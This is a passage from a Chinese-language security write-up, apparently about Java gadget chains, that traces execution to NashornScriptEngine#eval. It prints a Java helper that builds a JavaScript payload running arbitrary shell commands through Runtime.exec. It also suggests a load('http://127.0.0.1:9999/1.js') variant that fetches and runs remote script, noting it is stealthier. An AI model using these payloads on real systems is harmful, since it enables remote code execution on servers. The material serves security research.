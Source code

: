 ![image-20230830180339745](./../.gitbook/assets/image-20230830180339745.png)

最后遍历scripts，执行`addStringSource`实现的`Command`类的run方法

![image-20230830181408000](./../.gitbook/assets/image-20230830181408000.png)

最后调用到`NashornScriptEngine#eval`

```java
com.sun.tools.script.shell.Main.main(new String[]{
    "-e", makeJsRuntimeExecPayload("calc")
});
public static String makeJsRuntimeExecPayload(String cmd) {
    return "var strs=new Array(3);" +
        "if(java.io.File.separator.equals('/')){" +
        "strs[0]='/bin/bash';" +
        "strs[1]='-c';" +
        "strs[2]='" + cmd + "';" +
        "}else{" +
        "strs[0]='cmd';" +
        "strs[1]='/C';" +
        "strs[2]='" + cmd + "';" +
        "}" +
        "java.lang.Runtime.getRuntime().exec(strs);";
}
```

第二个参数换成`load('http://127.0.0.1:9999/1.js')`可加载远程js

显然比起直接传递恶意js，`load`显得相对隐蔽，缺点就是需要出网。

SpEL表达式：
